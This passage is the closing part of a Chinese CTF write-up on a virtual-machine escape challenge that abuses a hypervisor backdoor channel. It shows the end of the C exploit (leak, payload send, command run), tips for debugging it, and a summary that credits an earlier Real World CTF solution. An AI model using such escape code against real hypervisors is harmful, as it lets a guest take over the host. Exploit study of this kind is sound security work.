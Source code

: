 ```
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,strlen(pay4)+1,pay4,&amp;res);
    run_cmd(s4);
    if(!res)`{`
        printf("fail to set len\n");
        return;
    `}`
`}`
void main()`{`
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    setvbuf(stdin,0,2,0);
    leak();
    printf("text base :%p",text);
    getchar();
    exploit();
`}`
```



## tips

​ 在调试的时候会遇到一个问题：如果直接在被攻击机编译运行exp，运行到断点处会卡死，导致鼠标没法从虚拟机中拖出来。所以可以ssh连接到被攻击机，远程运行exp避免这个问题；或者可以在exp中加一行sleep防止卡在虚拟机里。<br>
​ 另外调试时最好将虚拟机最小化，防止不小心把鼠标点到虚拟主机中卡死。



## 总结

​ 第一次调试虚拟机逃逸的题目，逆向分析的过程花了很大一部分时间，最后编写EXP、调试的过程大部分工作都是仿照[Real World CTF 2018 Finals Station-Escape](https://zhuanlan.zhihu.com/p/52140921)进行，最后成功弹出计算器还是有些小激动的，也算是对利用backdoor这个攻击面的第一次尝试，收获很多。
